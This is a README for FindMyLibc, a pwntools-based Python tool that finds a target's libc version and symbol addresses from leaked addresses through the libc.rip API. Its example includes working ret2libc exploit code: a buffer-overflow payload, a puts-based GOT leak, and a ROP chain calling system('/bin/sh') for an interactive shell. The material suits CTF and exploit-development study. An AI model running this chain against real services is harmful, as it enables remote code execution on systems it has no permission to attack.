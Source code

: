 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
**No heavy libc downloading, all remote, 1 simple function call.**

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```bash
pip install findmylibc
```  
Then use easily:  
```python
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

# The `find_libc` parameters
## `elf`:
An object of the class `ELF` from `pwntools`, usually created by calling: 
```python
ELF('binary-name')
```

## `leak_libc_address`:
A function with signature of:  
```python
def my_leak_func(symbol_name_str): ... ->  return leaked_address_integer
```  
You must create this function,  
where the only parameter is of type **string** - the symbol name to leak,  
and the return value is the leaked address as **integer**.

There's another optional argument, see [Link to the header](#the-stop_libs_amount-argument-optional).

# Example
Here's a simple example of an exploit script (see [`.example/example.py`](https://github.com/omrina/FindMyLibc/blob/main/example/example.py)).

### Setup your binary exploit script:
Whatever you need here...
```python
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### Set up our "leak address" function:

```python
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```python
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `.example/example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


### What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How to use the results:
You would probably need only `syms`, a dict of `{symbol_name_str: calcualted_address_integer}`,  
so continuing the example above, one might use:
```python
# Remember: chosen_libc['syms']['system'] AND chosen_libc['syms']['str_bin_sh']
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
```python
_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']
```  
Then it makes reqeusts to the public `https://libc.rip/api/find`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument (optional)
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
```python
matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)
```



